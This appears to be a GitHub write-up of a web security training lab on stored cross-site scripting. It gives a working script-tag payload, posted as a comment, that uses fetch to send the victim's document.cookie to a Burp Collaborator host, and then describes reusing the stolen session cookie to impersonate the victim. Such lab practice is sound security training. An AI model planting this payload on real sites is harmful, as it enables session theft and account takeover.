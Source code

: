 # Lab: Exploiting cross-site scripting to steal cookies

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a0afb93c-f722-49d5-9595-30eefa78e77b)

## Solution

Go to burp collaborator, start it and click on **Copy to clipboard** to get a subdomain.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/d7bb04d0-34b5-475b-9643-b93882161a25)

Use the following script and post it as a comment.

```Javascript
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

- `fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { ... }) ` initiates a network request to the specified URL `(https://BURP-COLLABORATOR-SUBDOMAIN)`.

- `{ method: 'POST', mode: 'no-cors', body: document.cookie } ` specifies the options for the fetch request:
  - `method: 'POST'`: This indicates that the request will be sent using the HTTP POST method.
  - `mode: 'no-cors'`: This sets the request mode to 'no-cors', which means that the browser will make the request without including the CORS (Cross-Origin Resource Sharing) headers. This mode restricts the type of responses that can be received.
  - `body: document.cookie`: This assigns the value of document.cookie as the request body. document.cookie contains all the cookies associated with the current domain, including session cookies and other sensitive information.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/383327dd-6d00-441a-b025-2c9468d3a4be)

In burp collaborator, the cookie of the victim can be seen as request in **HTTP** type.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/ab96562f-a57d-4b83-a829-dfb5872b3bbf)

Use the above acquired victim's cookie instead of our own to impersonate the victim and solve the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a24a368e-6e62-4931-b37d-fa177e1a770c)
